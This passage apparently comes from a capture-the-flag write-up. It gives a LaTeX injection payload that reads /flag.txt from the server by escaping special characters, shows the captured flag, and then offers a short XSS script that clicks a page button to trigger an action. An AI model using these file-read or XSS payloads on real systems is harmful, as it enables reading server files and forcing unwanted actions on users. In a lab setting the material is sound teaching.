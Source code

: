 So something must be up with the content of flag.txt
Latex interprets the underscore as a special character, so we need to escape it. To be safe we can escape all the "illegal" characters.
```latex
{\catcode`\_=12 \catcode`\#=12 \catcode`\%=12 \input{/flag.txt}}
```
![img_13.png](img/img_13.png)

```text
EPT{Y0U_4R3_4_PR1NT3R_M4ST3R}
```


<br>
<br>


## A better XSS solution
Looking at other writeups and talking to other users I found a better solution to the problem. 
Since the form is already loaded we can just click the button that is first in the DOM. Instead of crafting a script that sends a POST request with csrf and userid.
```html
<script>
    document.querySelector("button").click();
</script>
```